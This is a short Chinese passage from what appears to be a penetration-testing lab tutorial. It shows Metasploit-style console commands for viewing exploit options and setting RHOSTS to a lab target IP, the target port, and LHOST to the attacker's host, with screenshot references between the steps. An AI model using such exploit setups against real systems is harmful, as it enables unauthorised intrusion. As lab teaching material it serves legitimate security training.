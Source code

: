 查看并且配置 exp 参数，确保所有 `Required=yes` 参数均正确配置

```bash
# 查看 exp 可配置参数列表
$ show options
```

![查看exp可配置参数列表](img/查看exp可配置参数列表.png)

```bash
# 靶机 IP
$ set RHOSTS 192.168.56.102

# 靶机目标端口
$ set rport 29669

# 攻击者主机 IP
$ set LHOST  192.168.142.255 

# 再次检查 exp 配置参数列表
$ show options
```

![配置exp参数](img/配置exp参数.png)
